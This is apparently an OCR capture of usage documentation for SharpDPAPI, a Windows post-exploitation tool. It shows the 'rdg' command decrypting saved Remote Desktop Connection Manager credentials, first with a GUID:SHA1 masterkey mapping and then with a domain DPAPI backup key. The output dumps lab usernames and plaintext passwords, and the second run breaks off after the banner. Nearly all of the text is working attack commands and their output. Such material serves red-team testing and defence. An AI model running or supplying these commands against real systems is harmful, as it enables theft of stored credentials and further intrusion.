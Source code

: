 
Using domain {GUID}:SHA1 masterkey mappings:

    C:\Temp>SharpDPAPI.exe rdg {8abc35b1-b718-4a86-9781-7fd7f37101dd}:ae349cdd3a230f5e04f70fd02be69e2e71f1b017

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.3.0


    [*] Action: RDG Triage

    [*] Using CryptUnprotectData() to decrypt RDG passwords

    [*] Triaging RDCMan Settings Files for current user

        RDCManFile    : C:\Users\harmj0y\AppData\Local\Microsoft\Remote Desktop Connection Manager\RDCMan.settings
        Accessed      : 5/9/2019 11:52:58 AM
        Modified      : 5/9/2019 11:52:58 AM
        Recent Server : test\primary.testlab.local

            Cred Profiles

              Profile Name : testprofile
                UserName   : testlab.local\dfm
                Password   : Password123!

            Default Logon Credentials

              Profile Name : Custom
                UserName   : TESTLAB\harmj0y
                Password   : Password123!

          C:\Users\harmj0y\Documents\test.rdg

            Servers

              Name         : secondary.testlab.local

              Name         : primary.testlab.local
              Profile Name : Custom
                UserName   : TESTLAB\dfm.a
                Password   : Password123!


Using a domain DPAPI backup key to first decrypt any discoverable masterkeys:

    C:\Temp>SharpDPAPI.exe rdg /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...(snip)...

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.3.0
